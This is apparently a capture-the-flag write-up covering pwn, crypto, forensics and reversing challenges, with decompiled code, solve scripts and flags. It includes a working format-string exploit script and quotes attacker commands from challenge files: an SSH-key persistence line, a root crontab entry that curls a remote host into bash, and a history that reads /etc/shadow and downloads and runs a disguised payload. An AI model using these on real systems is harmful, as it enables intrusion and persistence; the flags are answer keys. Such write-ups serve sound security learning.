



## Pwn
### Delulu

Reversing the binary it set `var_48` to `0x1337babe`. It then checks if it is `0x1337beef` and calls delulu

```c
0000144a  int32_t main(int32_t argc, char** argv, char** envp)

0000144a  {
00001456      void* fsbase;
00001456      int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
00001465      int64_t var_48 = 0x1337babe;
00001471      int64_t* ptr = &var_48;
00001475      int64_t input;
00001475      __builtin_memset(&input, 0, 0x20);
000014a6      read(0, &input, 0x1f);
000014ba      printf("\n[!] Checking.. ");
000014cb      printf(&input);
000014cb      
000014da      if (var_48 == 0x1337beef)
000014f2          delulu();
000014da      else
000014e6          error("ALERT ALERT ALERT ALERT\n");
000014e6      
00001500      *(uint64_t*)((char*)fsbase + 0x28);
00001500      
00001509      if (rax == *(uint64_t*)((char*)fsbase + 0x28))
00001511          return 0;
00001511      
0000150b      __stack_chk_fail();
0000150b      /* no return */
0000144a  }
```

delulu function opens the flag.txt file

```c
00001332  int64_t delulu()

00001332  {
0000133e      void* fsbase;
0000133e      int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
00001361      int32_t fd = open("./flag.txt", 0);
00001361      
0000136d      if (fd < 0)
0000136d      {
00001379          perror("\nError opening flag.txt, please…");
00001383          exit(1);
00001383          /* no return */
0000136d      }
0000136d      
00001397      printf("You managed to deceive the robot…");
000013c7      char buf;
000013c7      
000013c7      while (read(fd, &buf, 1) > 0)
000013b1          fputc(((int32_t)buf), __TMC_END__);
000013b1      
000013d6      close(fd);
000013d6      
000013e9      if (rax == *(uint64_t*)((char*)fsbase + 0x28))
000013f1          return (rax - *(uint64_t*)((char*)fsbase + 0x28));
000013f1      
000013eb      __stack_chk_fail();
000013eb      /* no return */
00001332  }
```

The binary has a format string in the `printf()`. We need to leak the offset of the pointer `int64_t* ptr = &var_48;`. we use `%p` format specifier to print the pointers addresses.

```bash
>> %p %p %p %p %p %p %p %p %p %p

[!] Checking.. 0x7ffc5a9c9bd0 (nil) 0x72d323714887 0x10 0x7fffffff 0x1337babe 0x7ffc5a9cbcf0 0x7025207025207025 0x2520702520702520 0x2070252070252070

[-] ALERT ALERT ALERT ALERT
```

The address is `0x7ffc5a9cbcf0` since it is below `0x1337babe`. The offset is `7`. The following are the format specifiers for memory writes.

```bash
%n: Writes 4 bytes to an int*.
%hn: Writes 2 bytes to a short*.
%hhn: Writes 1 byte to a char*.
```

we use the following code to run the exploit by writing 2 bytes to the value of the pointer.

```python
from pwn import *

filename = "./delulu"

elf = ELF(filename)
p = process(filename)

offset = 7
value = 0xbeef

p.sendlineafter(b'>>', f"%{value}c%{offset}$hn")

p.interactive()
```

## Crypto
### Makeshift

We are provided with a python script that was used to encrypt the flag. We need understand the script inorder to reverse the process.

```python
from secret import FLAG

flag = FLAG[::-1]
new_flag = ''

for i in range(0, len(flag), 3):
    new_flag += flag[i+1]
    new_flag += flag[i+2]
    new_flag += flag[i]

print(new_flag)
```

* `flag = FLAG[::-1]` This line reverses the flag using slicing notation in python.
* `for i in range(0, len(flag), 3):` The for loop works on 3 characters in each iteration from the reversed flag
* `new_flag += flag[i+1]` Appends the character at the index `i+1` of the reversed flag string to the `new_flag`
* `new_flag += flag[i+2]` Appends the character at the index `i+2` of the reversed flag string to the `new_flag`
* `new_flag += flag[i]` Appends the character at the index `i` of the reversed flag string to the `new_flag`

The following script rearranges everything back to the original order

```python
encrypted_flag = "!?}De!e3d_5n_nipaOw_3eTR3bt4{_THB"
flag = ''

for i in range(0, len(encrypted_flag), 3):
    flag += encrypted_flag[i+2]
    flag += encrypted_flag[i]
    flag += encrypted_flag[i+1]

original_flag = flag[::-1]
print(original_flag)
```

Running the script we get the flag

```shell
pl4int3xt@archlinux ~/D/cyberapocalypse> python3 decrypt.py
HTB{4_b3tTeR_w3apOn_i5_n3edeD!?!}
```
## Forensics
### Urgent
The .eml file has a base64 encoded body. Using cyberchef to decode we get a url encoded string 



Further url decoding the string we get the flag



### It has begun

The first part of the flag is in reversed format and located at the end of the echo string in the script.sh file

```sh
echo "ssh-rsa AAAAB4NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D7s4J0L7XV2kep0rNzgY1S1IdE8HDAf7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B user@tS_u0y_ll1w{BTH" >> /root/.ssh/authorized_keys
```

the other part of the flag is base64 encoded located after the `bash -c` command

```sh
echo "*/5 * * * * root curl -s http://legions.korp.htb/0xda4.0xda4.$ARCH | bash -c 'NG5kX3kwdVJfR3IwdU5kISF9' " >> /etc/crontab
```

decoding the string we get the second part

```sh
pl4int3xt@archlinux ~> echo 'NG5kX3kwdVJfR3IwdU5kISF9' | base64 -d
4nd_y0uR_Gr0uNd!!}
```

### An unusual sighting

We'll use the SSH Logs and the bash history files to answer the following questions to get the flag


#### What is the IP Address and Port of the SSH Server (IP:PORT)

From the `ssh.log` file we discover the ip to be `100.107.36.130` and the port `2221`

```
[2024-01-28 15:24:23] Connection from 100.72.1.95 port 47721 on 100.107.36.130 port 2221 rdomain ""
```
#### What time is the first successful Login

Checking on the `ssh.log` file we get the first time a password was accepted was on `2024-02-13 11:29:50`

```
[2024-02-13 11:29:50] Accepted password for root from 100.81.51.199 port 63172 ssh2
```
#### What is the time of the unusual Login

The challenge had a note on operating hours `Note: Operating Hours of Korp: 0900 - 1900`. We need to look a login attempt outside the operating hours. `2024-02-19 04:00:14`

```
[2024-02-19 04:00:14] Accepted password for root from 2.67.182.119 port 60071 ssh2
```
#### What is the Fingerprint of the attacker's public key

on the `ssh.log` file we can see the attacker's public key `OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4`

```
[2024-02-19 04:00:14] Failed publickey for root from 2.67.182.119 port 60071 ssh2: ECDSA SHA256:OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4
```
#### What is the first command the attacker executed after logging in

#### What is the final command the attacker executed before logging out

The `bash_history.txt` file has all the commands run on the server. We need to check the commands run at the time the attacker logged in `2024-02-19 04:00:18`

```
[2024-02-19 04:00:18] whoami
[2024-02-19 04:00:20] uname -a
[2024-02-19 04:00:40] cat /etc/passwd
[2024-02-19 04:01:01] cat /etc/shadow
[2024-02-19 04:01:15] ps faux
[2024-02-19 04:02:27] wget https://gnu-packages.com/prebuilts/iproute2/latest.tar.gz -O /tmp/latest_iproute.tar.gz
[2024-02-19 04:10:02] tar xvf latest.tar.gz
[2024-02-19 04:12:02] shred -zu latest.tar.gz
[2024-02-19 04:14:02] ./setup
```

Finally we get our flag

```
[+] Here is the flag: HTB{B3sT_0f_luck_1n_th3_Fr4y!!}
```

## Reverse 
### LootStash

Hold your horses, before spamming 'strings' command let the binary whisper its secrets in the language of assembly and the flag will unfold its tale in the dance of opcodes pirouetting into your arms. 😄 😄 😄.Always seek to understand the binary before running strings. `#pl4int3xt😄`
```c
undefined8 main(void)

{
  int iVar1;
  time_t tVar2;
  int local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  puts("Diving into the stash - let\'s see what we can find.");
  for (local_c = 0; local_c < 5; local_c = local_c + 1) {
    putchar(0x2e);
    sleep(1);
  }
  iVar1 = rand();
  printf("\nYou got: \'%s\'. Now run, before anyone tries to steal it!\n",
         *(undefined8 *)(gear + (long)(int)((ulong)(long)iVar1 % 0x7f8 >> 3) * 8));
  return 0;
}
```

```shell
pl4int3xt@archlinux ~/D/c/rev_lootstash> ./stash
Diving into the stash - let's see what we can find.
.....
You got: 'Snowfall, Aspect of the Occult'. Now run, before anyone tries to steal it!
```

The binary gets the current time and stores it in the variable, it then seeds the random number generator `(rand())` with the current time. This helps to generate different random numbers in each run of the program. The random strings are coming from the gear array. This means that they are all stored at the `.data` section of the binary. Finally let's run strings and grep for the flag.

```shell
pl4int3xt@archlinux ~/D/c/rev_lootstash> strings stash | grep 'HTB'
HTB{n33dl3_1n_a_l00t_stack}
```
